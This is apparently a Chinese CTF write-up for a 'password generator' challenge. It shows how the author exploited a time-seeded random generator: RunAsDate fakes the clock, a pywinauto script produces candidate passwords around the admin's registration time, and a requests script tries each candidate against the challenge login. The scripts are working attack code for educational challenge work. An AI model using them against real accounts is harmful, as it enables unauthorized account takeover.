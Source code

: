 ## 密码生成器

这题 exe 用 wine 跑不起来，只好去微软官网下载了个 [Windows 10 虚拟机](https://developer.microsoft.com/en-us/windows/downloads/virtual-machines/) 来做题。

直接猜到是用（精确到秒的）时间做随机数种子的。Linux 用 [faketime](https://github.com/wolfcw/libfaketime) 就能随便篡改程序读到的时间，上网搜 Windows 怎么做。发现个叫 [RunAsDate](https://www.nirsoft.net/utils/run_as_date.html) 的程序，下面命令就使得程序启动时读到的时间是 2021-10-20 00:00:00（这里 `/movetime` 是必须的，不然好像时间是停止的，会导致程序卡死）：

```
$ RunAsDate.exe /immediate /movetime 20/10/2021 00:00:00 .\generator.exe
```

窗口出来后快速点击生成密码，多试几次后发现的确会生成相同密码。

不用逆向了。网页上看 admin 账户信息，得知该用户“于 2021-09-22 23:11 注册”。直接搞个自动点击脚本（用了 [pywinauto](https://github.com/pywinauto/pywinauto) 这个库），跑出来这个时间前后的密码：

```python
import pywinauto
import _ctypes
from pywinauto import Desktop, Application
import time
import subprocess
import datetime

t = datetime.datetime(2021, 9, 22, 23, 10, 0)
t_end = datetime.datetime(2021, 9, 22, 23, 12, 0)

while t < t_end:
    proc = subprocess.Popen([
        ".\\RunAsDate.exe", "/immediate", "/movetime",
        t.strftime("%d/%m/%Y"), t.strftime("%H:%M:%S"),
        ".\\generator.exe"])
    proc.wait()

    while True:
        try:
            app = Application(backend="uia").connect(title="密码生成器")
        except pywinauto.findwindows.ElementNotFoundError:
            time.sleep(0.1)
        else:
            break

    window = app.window()
    window["生成"].click()
    while True:
        password = window.Edit.window_text()
        if password != "":
            break
        time.sleep(0.1)
    print(t.isoformat(), password)

    try:
        window.close()
    except _ctypes.COMError:
        time.sleep(1)
    t += datetime.timedelta(seconds=1)
```

以下是试密码的脚本：

```python
import requests
import sys

s = requests.Session()
csrf_token = "<REDACTED>"
session_id = "<REDACTED>"

s.cookies.update({
    "csrftoken": csrf_token,
    "sessionid": session_id,
    "session": session_id
})


for idx, line in enumerate(sys.stdin):
    password = line.strip()
    req = s.post("http://202.38.93.111:15002/login", data={
        "csrfmiddlewaretoken": csrf_token,
        "username": "admin",
        "password": password
    })

    if "用户名或密码错误" in req.text:
        print(f"{idx:4d} {password} BAD")
    else:
        print(f"{idx:4d} {password} GOOD")
        break
```

我被时区问题坑了很久。我系统时区不是 UTC+8，一开始试了本地时间 2021-09-22 23:11 以及偏移正负 8 小时，全都不行。后来把时区调成 UTC+8 就成功了。